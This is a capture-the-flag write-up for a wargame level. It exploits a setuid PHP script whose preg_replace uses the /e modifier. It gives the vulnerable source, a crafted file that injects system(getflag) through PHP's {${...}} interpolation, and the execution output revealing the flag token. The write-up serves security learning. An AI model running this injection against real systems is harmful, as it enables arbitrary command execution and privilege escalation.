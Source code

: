 ## writeup level06

When we log in as user level06, we can see 2 files in our home: `level06` and `level06.php`
```shell
$ ls -l level06
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
$ cat level06.php
```
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
The `level06` binary has again this suid bit, which enable execution as root owner `flag06`. \
After examining it with `strings` and a little `gdb`, we see it uses `execve` to call our script with `argv[1]` and `argv[2]`.
The php script calls `file_get_contents` with the first argument, and does some regex replacement stuff. The only one that interest us is the first replace: \
`preg_replace` is called with the `/e` modifier, which enables the execution of the result. \
Basically, it will replace all `[x ELEMENTS]` with `y("ELEMENTS")` after escaping the captured elements. \
In php, you can interpolate variables by using the `{${` syntax. So we can basically execute any php code we want inside the interpolation like so:
```shell
$ cat > /tmp/printflag <<EOF
[x {\${system(getflag)}}]
EOF
$ ./level06 /tmp/printflag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
